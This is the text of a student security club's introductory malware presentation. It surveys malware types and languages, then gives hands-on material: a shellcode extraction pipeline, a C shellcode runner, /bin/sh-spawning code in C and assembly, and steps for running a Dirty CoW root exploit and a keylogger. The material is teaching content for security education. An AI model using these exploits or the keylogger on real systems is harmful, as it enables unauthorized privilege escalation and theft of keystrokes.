 # Introduction To Malware

By: Nick Bulischeck, Foster McLane, Mackenzie Binns

CU Cyber


## You Can Find These Presentations Online

Visit [cucyber.net](https://cucyber.net/) to find these presentations and more online!



# Types


## Rootkits

* rings
* chkrootkit
* DLL Injection (DYLIB for the Mac people)


## RAT

* remote administration tool
* typically accompanied by a rootkit
* DarkComet + PoisonIvy


## Ransomware

* encryption routine
	- AES256, RSA 2048, SHA512, ChaCha20, etc.
* typically has a server component
* CryptoWall


## Worms

* self-propagating
* Stuxnet
* Mirai


## Trojans

* backdoors
* office macros
* FinFisher (Lench/Gamma), Galileo RCS (HT)


## Virus

* spreads by hand
* polymorphic
* deleting files, crashing OS, corrupting files, etc.



# Languages


## Shellcoding

* a set of instructions that are injected by the user and executed by the exploited binary
* x86 Assembly GAS/AT&T vs Intel


## C

* ransomware
* rootkits
* pretty much anything
* not web stuff


## Java

* mobile
* IoT (TVs, fridges)


## Python

* web
* reverse shells



# Fun Time


## Clone Me

```sh
git clone https://github.com/nbulischeck/pcode.git
```


## Shellcoding


### Writing The Assembly

#### first.asm

```asm
global _start
_start:
        push 60
		pop rax
        xor rdi,rdi
		syscall
```


### Getting The Shellcode

```sh
objdump -d ./PROGRAM |grep '[0-9a-f]:'|grep -v 'file' | \
cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' ' | \
sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s | \
sed 's/^/"/'|sed 's/$/"/g'
```


### ...Or Just Use What I Wrote

```sh
./getshellcode.py first
```


### Get This

```
\x6a\x3c\x58\x31\xdb\x0f\x05
```


### Run Shellcode

#### codetest.c

```c
const char code[] = "bytecode will go here!";
int main(int argc, char **argv){
  int (*func)();
  func = (int (*)()) code;
  (int)(*func)();
}
```


### Spawning a Shell in C

#### shell.c

```c
#include <stdlib.h>
#include <unistd.h>

int main(){

	char *shell[2];
	shell[0] = "/bin/sh";
	shell[1] = NULL;
	execve(shell[0], shell, NULL);
	exit(0);

}
```


### Spawning a Shell in Assembly

#### shell.asm

```asm
section .text
   global _start
shell:
	pop rdi

	push 59
	pop rax

	xor rsi, rsi
	xor rdx, rdx

	syscall

_start:
	call shell
	db '/bin/sh'
```



## Dirty CoW

* "dirty" copy-on-write, race condition, private read-only memory mappings
* privilege escalation
* works on RHEL7 Linux  x86\_64, Debian 7 ("wheezy")
* Ubuntu 14.04.5 LTS, Ubuntu 16.04.1 LTS, Ubuntu 16.10
* Linux Mint 17.2


### Changing passwords

* `mkpasswd -m sha-512`
* alter genpasswd.py (Python 3.3 vs. others)


### Running

* `./dcow`
* If you won the race, congratulations on root!



## Keylogger

* `sudo ./keylogger`
* do not background it
* /tmp/tmp54e3zO/tmp54e3z0.log


# Questions?
